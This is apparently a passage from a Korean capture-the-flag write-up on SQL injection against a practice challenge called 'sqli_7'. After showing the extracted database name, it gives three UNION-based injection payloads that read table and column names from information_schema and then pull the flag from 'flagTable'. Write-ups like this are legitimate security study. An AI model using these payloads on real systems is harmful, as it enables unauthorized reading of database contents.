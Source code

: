 ![데이터베이스](/assets/web-screenshots/sqli-point/sqli_7_database.png)

페이지 하단에 존재하지 않던 새로운 행이 추가되었고,
**User ID 열에 `sqli_7`이 출력**되며 현재 사용 중인 데이터베이스 이름이 성공적으로 추출되었음을 확인할 수 있었다.

> **데이터베이스 이름: `sqli_7`**

데이터베이스 이름을 확인했으므로, 이제 **`information_schema`를 활용해 테이블과 컬럼 정보**를 식별하고,
최종적으로 **플래그 값을 추출하는 단계**로 넘어가겠다.

```sql
username union select (select table_name from information_schema.tables where table_schema='sqli_7' limit 1,1),2,3,4,5,6,7,8,9,10#
```

> **테이블 이름: `flagTable`**

```sql
username union select (select column_name from information_schema.columns where table_schema='sqli_7' and table_name='flagTable' limit 1,1),2,3,4,5,6,7,8,9,10#
```

> **컬럼 이름: `flag`**

```sql
username union select (select flag from flagTable limit 2,1),2,3,4,5,6,7,8,9,10#
```
